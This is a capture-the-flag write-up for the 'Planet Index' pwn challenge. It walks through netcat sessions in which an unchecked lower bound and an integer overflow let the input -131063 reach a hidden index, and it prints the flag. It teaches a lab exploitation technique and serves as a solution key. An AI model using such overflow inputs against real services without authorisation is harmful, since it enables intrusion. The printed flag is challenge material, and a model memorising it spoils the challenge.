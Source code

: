 # Challenge "Planet Index"
<img src="banner.jpg" width="400px" alt="Banner Image" /><br/>

**Difficulty:** <span style="background-color: #e6cb39; padding: 5px; color: black;">⚖️ medium</span> | **Category:** <span style="background-color: #ced4da; padding: 5px; color: black;">💀 pwn</span>

Welcome to the Index of Planets!

    nc ch.hackyeaster.com 2403

Note: The service is restarted every hour at x:00.


# Solution
When accessing this service with netcat, we are pleased with an planet index service. On this service, we can enter an index and receive information about the selected planet:

    ➜  Planet Index git:(main) ✗ nc ch.hackyeaster.com 2403
    ------------
    PLANET INDEX

    last update: August 2006
    ------------
    1 Mercury
    2 Venus
    3 Earth
    4 Mars
    5 Jupiter
    6 Saturn
    7 Uranus
    8 Neptune
    ------------
    Enter the index of the planet > 1
    ------------
    Mercury, small and bright, close to the light,
    From scorching heat to freezing night.

    ➜  Planet Index git:(main) ✗ 

Interesstingly, the last update was on August 2006, when Pluto was downgraded from the ninth planet from the sun to a dwarf planet. Therefore we can assume, that the flag is related to 9 (Pluto).

When entering 9 as index, we receive an error. This indicates that all numbers above the indexes are checked and denied:

    Enter the index of the planet > 9
    Invalid index! Quitting.

When entering 0, we receive another error. This indicates, that values below the possible indexes are not checked:

    Enter the index of the planet > 0
    ------------
    cat: /usr/src/planetindex/planet-0.txt: No such file or directory

When entering a big negative number like -10000, we are pleased with an integer overflow:

    Enter the index of the planet > -10000
    ------------
    cat: /usr/src/planetindex/planet-55536: No such file or directory

So now it is obvious, that we have to enter a big negative number, which will lead to 9 because of the overflow. This happens for example with the input "-131063":

    Enter the index of the planet > -131063
    ------------
    Pluto, roses are red,
    here's your flag: he2024{plut0_41nt_n0_plan3t_n0_m0r3}



## The Flag 🚩
    he2024{plut0_41nt_n0_plan3t_n0_m0r3}
